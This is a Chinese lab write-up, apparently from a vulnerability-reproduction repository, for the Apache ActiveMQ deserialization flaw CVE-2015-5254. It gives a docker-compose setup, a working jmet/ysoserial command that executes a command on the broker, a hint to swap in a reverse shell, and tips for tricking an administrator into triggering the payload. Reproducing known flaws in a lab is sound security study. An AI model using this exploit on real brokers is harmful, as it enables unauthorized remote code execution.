




# ActiveMQ 反序列化漏洞（CVE-2015-5254）

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

参考链接：

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## 漏洞环境

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，将监听61616和8161两个端口。其中61616是工作端口，消息在这个端口进行传递；8161是Web管理页面端口。访问`http://your-ip:8161`即可看到web管理页面，不过这个漏洞理论上是不需要web的。

## 漏洞复现

漏洞利用过程如下：

1. 构造（可以使用ysoserial）可执行命令的序列化对象
2. 作为一个消息，发送给目标61616端口
3. 访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```



此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：



点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：



将命令替换成弹shell语句再利用：



值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。
